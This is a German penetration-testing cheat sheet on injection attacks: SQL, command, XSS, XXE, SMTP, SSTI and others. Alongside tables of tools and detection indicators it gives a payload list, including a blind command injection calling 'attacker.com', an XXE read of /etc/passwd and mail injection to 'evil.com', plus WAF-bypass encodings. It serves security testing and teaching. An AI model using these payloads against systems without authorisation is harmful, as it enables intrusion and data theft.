 | Typ                                | Ziel                 | Beschreibung                           |
| ---------------------------------- | -------------------- | -------------------------------------- |
| **SQL Injection**                  | Datenbanken          | Manipulation von SQL-Abfragen          |
| **Command Injection**              | Shell                | Ausführung systemweiter Befehle        |
| **LDAP Injection**                 | Directory Services   | Manipulation von LDAP-Filterausdrücken |
| **XSS** (Reflektiert, Stored, DOM) | Browser              | Einschleusen von JavaScript            |
| **XML Injection / XXE**            | XML-Parser           | Zugriff auf Files, SSRF über XML       |
| **NoSQL Injection**                | MongoDB, CouchDB     | Manipulation von JSON-Queries          |
| **SMTP Injection**                 | Mailserver           | Einschleusen von Mail-Kommandos        |
| **CRLF Injection**                 | HTTP Header          | HTTP-Response Splitting                |
| **XPath Injection**                | XML-Datenbank        | Manipulation von XPath-Ausdrücken      |
| **SSI Injection**                  | Server-Side Includes | Serverseitige Codeausführung           |
| **Host Header Injection**          | HTTP-Header          | SSRF, Reset-Links hijacken             |
| **Template Injection (SSTI)**      | Template Engines     | Server-Side Code Execution             |
| **GraphQL Injection**              | GraphQL APIs         | Query-Manipulation und introspection   |

' " ` ; ) ( < > ${} || && //


'; WAITFOR DELAY '0:0:5'--        # SQLi Time

| sleep 5                         # Command Inj.

`nslookup attacker.com`          # Blind CMD

"><script>alert(1)</script>      # XSS

"<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>" # Ohne ""

" | mail -s pwn me@evil.com      # SMTP Inj.

| Typ          | Tool                                | Zweck                |
| ------------ | ----------------------------------- | -------------------- |
| SQLi         | `sqlmap`, `Burp`, `sqlitebrowser`   | Vollautomatisierung  |
| CMD          | `Commix`, `Burp`, `curl`            | Command Exec         |
| XSS          | `XSStrike`, `Dalfox`, `XSScrapy`    | Kontextanalyse       |
| XML / XXE    | `Burp`, `XXEinjector`, `xmlstarlet` | File Read, SSRF      |
| SSTI         | manuell / `tplmap`                  | Template-Injektion   |
| LDAP / XPath | manuell                             | Logikfehler erzeugen |
| NoSQL        | `NoSQLMap`, `Burp`                  | JSON-Manipulation    |


**Bypassing WAFs & Filters:**
| Technik              | Beispiel                          |
| -------------------- | --------------------------------- |
| URL-Encoding         | `%27` statt `'`                   |
| Doppel-Encoding      | `%2527`                           |
| Keyword-Splitting    | `SEL/**/ECT`                      |
| Case-Bypass          | `SeLeCt`                          |
| Whitespaces ersetzen | `+`, `%09`, `%0a`                 |
| Comments             | `UN/**/ION/**/SELECT`             |
| Obfuscation          | `char(97)+char(100)+char(109)...` |

| Kontext       | Beispiel-Injektion             |   |                |
| ------------- | ------------------------------ | - | -------------- |
| GET-Parameter | `/index.php?id=1' -- `         |   |                |
| POST-Body     | `username=admin' -- `          |   |                |
| JSON-API      | `{"user":"admin' -- "}`        |   |                |
| HTTP-Header   | \`User-Agent: '                |   | sleep(5) -- \` |
| Cookies       | `Cookie: session=1' or '1'='1` |   |                |
| URL-Path      | `/product/' OR 1=1--`          |   |                |


| Indikator              | Bedeutung                        |
| ---------------------- | -------------------------------- |
| SQL-Fehler             | `mysql_fetch...`, `syntax error` |
| Verzögerung            | Time-Based Blind                 |
| Ungewöhnliche Ausgaben | z. B. `uid=0(root)`              |
| Reflektierter Payload  | XSS wahrscheinlich               |
| Zugriff auf Files      | XXE, CMD                         |
| Statuscode 500/403/301 | Filterung oder WAF               |
